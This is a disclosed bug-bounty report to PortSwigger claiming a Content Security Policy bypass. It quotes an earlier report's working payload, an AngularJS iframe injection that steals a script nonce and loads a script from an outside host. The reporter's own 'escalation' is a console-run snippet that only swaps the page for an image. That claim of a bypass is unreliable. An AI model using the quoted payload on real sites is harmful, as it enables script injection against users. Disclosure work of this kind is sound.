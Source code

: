 # CSP Bypass and escalation of https://hackerone.com/reports/2279346

## Report Details
- **Report ID**: 2387458
- **URL**: https://hackerone.com/reports/2387458
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-02-23T05:22:01.104Z
- **Disclosed**: 2024-02-23T15:39:07.043Z

## Reporter
- **Username**: priyanshusharma9789
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
Hello Team , 

I have gone through this report https://hackerone.com/reports/2279346 and their is CSP bypass where website has implemented security in that but after this i can escalate Again CSP bypass with using different Script .

As shown in https://hackerone.com/reports/2279346 report website rectify the scripts like: 

document.getElementsByTagName("div")[0].innerHTML=`<iframe srcdoc="<div lang=en ng-app=application ng-csp class=ng-scope>
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>
<img src=x ng-on-error='w=$event.target.ownerDocument;a=w.defaultView.top.document.querySelector(&quot;[nonce]&quot;);b=w.createElement(&quot;script&quot;);b.src=&quot;//joaxcar.com/hack.js&quot;;b.nonce=a.nonce;w.body.appendChild(b)'>
</div>
">`


But their is new way where i can escalate the bug with new script which is : 

var demo=document.createElement("img");
demo.src="https://i.ytimg.com/vi/0vxCFIGCqnI/maxresdefault.jpg"; 
document.body.innerHTML="";demo.width="1000"; demo.height="1000";
document.body.appendChild(demo);

F3074920


Steps: 
Go to https://portswigger.net/
Inject the script in console tab and see the impact

In this website configuration on CSP header is not proper . In my attachment their is no header for img in CSP . So attacker can escalate the bug again with different scripts.
F3074919

Thanks 
Priyanshu

## Impact

Escalate the bug with new script

CSP bypass using img script.

## Attachments
- !st.png
- 2nd.png

